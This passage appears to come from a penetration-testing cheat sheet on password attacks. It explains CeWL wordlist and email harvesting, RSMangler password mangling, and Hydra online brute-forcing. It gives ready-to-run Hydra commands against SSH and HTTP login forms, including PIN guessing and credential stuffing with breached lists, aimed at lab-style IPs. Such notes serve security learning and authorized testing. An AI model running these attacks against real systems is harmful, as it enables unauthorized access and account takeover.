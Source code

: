 ```shell
# generate a word list and an emails list from a website with depth 2 and min word length 5
cewl -d 2 -m 5 -w passwords.txt http://10.10.131.23 --email --email_file emails.txt
```


### RSMangler

RSMangler is a command-line program to generate a richer list of passwords from a given list of words.  
It creates the new passwords by applying some transformation rules to the original words.  
For example it can add numbers at the end, capitalize the word, adding special characters, using leet replacements...  
By default, all mangling options are ON, and they can be turned OFF via command-line options.

```shell
# create a list of passwords from a list of words, with a few transformations disabled :
#  -a    : create an acronym with all words  
#  -c    : capitalize each word
#  --pnb : add 01-09 at the beginning of each word
#  --nb  - add 1-123 at the beginning of each word
rsmangler -a -c --pnb --nb --file words.txt --output passwords.txt
```


### Hydra

Hydra is an open-source password brute-forcing tool for online brute-force attacks.  
It operates via network protocols like SSH, RDP, HTTP (GET/POST), HTTP-FORM (GET/POST)...  
It sends the login attempts one-by-one to the target and checks the response for success.

Unlike Hashcat or John the Ripper, it is not an offline password cracking tool.  
It does not check passwords against a target hash, but against a target network system (so it can be detected).  
For common protocols, it can detect automatically if an attempt is successful or not.  
For HTTP login against a custom website, it needs to know the message to expect in case of failure.  

Hydra has a GTK+ based GUI version called `hydra-gtk`.

```shell
# brute-force attack of all passwords from 4 to 8 alpha-numeric characters 
hydra -l testuser -x 4:8:abcdefghijklmnopqrstuvwxyz1234567890 ssh://<TARGET_IP>

# try all passwords in a word list to access the target IP in SSH with a given user (login)
# -f to stop when a valid password is found
# -v for verbose logging
hydra -l testuser -P rockyou.txt -f -v <TARGET_IP> ssh

# try all passwords in a word list to access the target IP on a given HTML form
# no user is needed to access, only a password, added to the POST body with the ^PASS^ placeholder
# we specify the login PHP page, the fields in the POST body, and the message on error (separated with ":")
hydra -l '' -P pins.txt -f -v 10.10.131.34 http-post-form "/login.php:pin=^PASS^:Access Denied" -s 8000

# try all passwords from a word list to authenticate as a given user to a HTML form
# similar to the previous example, but with a user, that is added to the POST body with the ^USER^ placeholder
hydra -l testuser -P rockyou.txt 10.10.131.34 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"

# credential stuffing attack, using a list of users and their corresponding password from a previous breach
# hydra can try each credentials pair and report the successful ones
hydra -L usernames.txt -P passwords.txt 10.10.131.34 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"
```

